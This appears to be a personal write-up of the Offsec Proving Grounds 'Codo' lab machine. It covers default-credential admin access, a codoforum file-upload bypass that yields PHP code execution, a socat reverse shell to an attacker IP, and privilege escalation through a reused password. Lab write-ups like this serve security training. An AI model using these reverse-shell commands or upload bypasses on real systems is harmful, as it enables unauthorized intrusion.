



# PG Practice - Codo
## Machine Author: Offsec
## Released on: June 16, 2023
### Difficulty: Easy
### Community Difficulty: Easy
### Description: Part 2 of Mid Year CTF machines.
### Write up - Kaib3r
### Completion date - 29/03/2024


#### Introduction:

This was my second completed machine in Proving grounds without checking a write up, the first machine I did I gave up and checked a write up and realised I'd missed a couple of ports due to not doing an all ports nmap.

This was one was quite simple and I'd done it straight off the back of Sar the PG Play machine a community created machine by Love Sharma. So I had a flow going and got a foot hold in the first 10 mins most of my time was spent trying to Priv Esc without the use of Linpeas which I eventually gave in and transferred it over and ran it and got root within 10-20 minutes.

The basic steps I took are below.

| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened and I navigated to it and found codologic codoforum installed. |
| 3. | I fuzzed the directory and found the admin portal, I tested the default credentials admin:admin and got in. |
| 4. | I was able to get the exact version of codoforum (Version 5.1.105) and start researching for an exploit. |
| 4.1 |  |
| 5. | I found an exploit from Vikaran101s Github https://github.com/Vikaran101/CVE-2022-31854/tree/main and tested this out. |
| 5.1 | Unfortunately when trying to utilize this exploit I ran into an error, thankfully Vikaran101 pointed me in the right direction with his error code and pointed out trying to do the upload manually. I realised that this was just an automated version of an insecure file upload which I could of found myself if I had of explored the admin panel more effectively. |
| 5.2 |  | 
| 6. | I decided to use Burpsuite to capture the file upload exploited through the admin panel. I navigated to admin panel> global settings> change forum logo for codoforum and uploaded the first picture that was in my files (a TCMAcademy logo those who have done the web exploitation section of the Practical Ethical Hacking course from them will understand why :P ) |
| 6.1 | I caught the file upload with Burp suite and modified the PNG upload to have a .php extension and left the magic bytes of the image and some of the PNG unicode/garbage that comes up and added my php one liner into it.  |
| 6.2 |  |
| 7. | I caught a shell through this and converted it to tty with socat (due to just coming out of the sar machine this was my go to ) commands used below |
| 7.1 | Attack Box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 7.2 | Target: ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` |
| 8. | I decided to practice my Linux priv esc without Linpeas for a solid 20-30 mins but ended up transferring over linpeas to see what it dredged up. |
| 8.1 | Linpeas found a password in a php config file ```/var/www/html/sites/default/config.php``` "FatPanda123" |
| 9. | According to the config file it was the credentials were the access to the mysql db on the server which I quickly realised I had no access to. |
| 10. | I decided to credential stuff the list of users I found earlier with I cat'd the passwd file. This password ended up being the same as roots and the machine was pwned. |
| 10.1 |  |

| Lessons Learnt: | |
| --- | --- |
| 1. | Complete the functionality test of a website if you come across one, if you get admin access on the site, complete it again. I could of skipped utilizing the exploit from GitHub though I'm thankful for it and saved time by running the exploit myself which I'd already tested on the avatar upload for standard user accounts. superuser/admin areas typically have lower defenses then outside them. |
| 2. | Don't reuse passwords or store them in your config files. |
| 3. | Patch applications regularly. |
